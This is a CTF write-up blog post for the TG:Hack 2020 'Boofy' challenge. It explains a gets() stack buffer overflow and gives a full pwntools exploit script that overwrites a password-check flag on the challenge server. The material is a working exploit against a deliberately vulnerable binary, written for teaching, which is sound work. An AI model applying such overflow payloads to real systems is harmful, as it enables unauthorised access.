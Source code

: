 ```yaml
---
layout: post
title: TG:Hack CTF 2020 - Boofy 
---
```


> This program looks like it's password protected, but we can't seem to find the correct password.
>
> nc boofy.tghack.no 6003
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
boofy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=3d900c837e32043007c852a8c880bbb3c6d762eb, with debug_info, not stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
{% endhighlight %}

Decompiling binary shows obvious stack overflow vulnerability by using function `gets`.

![decompiled_try_password][decompiled_try_password]

We can see that buffer that we are reading to has 20 bytes, and then there is variable `correct` right after it set to `0`. We need to overflow buffer and override value of `correct` to `1`.

We can do it by sending following payload:

{% highlight python %}
payload = (
    b"A" * 20 +
    b"\x01"
)
io.sendline(payload)
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./boofy')

host = args.HOST or 'boofy.tghack.no'
port = int(args.PORT or 6003)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
io.recvuntil("Please enter the password?\n")

payload = (
    b"A" * 20 +
    b"\x01"
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/tghack/boofy
[decompiled_try_password]: {{site.baseurl}}/ctf/2020-04-14-tghack-boofy/decompiled_try_password.png
